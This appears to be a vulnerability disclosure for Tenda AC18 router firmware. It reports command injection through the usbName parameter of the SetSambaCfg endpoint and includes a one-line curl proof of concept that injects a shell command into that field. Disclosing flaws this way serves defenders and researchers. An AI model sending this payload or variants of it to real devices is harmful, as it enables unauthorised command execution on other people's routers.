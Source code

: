## Tenda AC18 command injection

### Overview

* Vendor: Tenda

* Product: Tenda AC18
* Version: V15.03.05.19(6318)

* Manufacturer's address：https://www.tendacn.com/
* Firmware download address ：https://static.tenda.com.cn/tdcweb/download/uploadfile/AC18/ac18_kf_V15.03.05.19(6318_)_cn.zip

### Vulnerability details

Tenda AC18 V15.03.05.19(6318) was found to contain a command injection vulnerability in the `formSetSambaConf` function via the `usbName` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image](./img/1.png)

![image](./img/2.png)

#### PoC

```
curl http://192.168.0.1/goform/SetSambaCfg?action=del&usbName=`touch%20/tmp/2.txt`
```

![image-20250413210610225](./img/3.png)
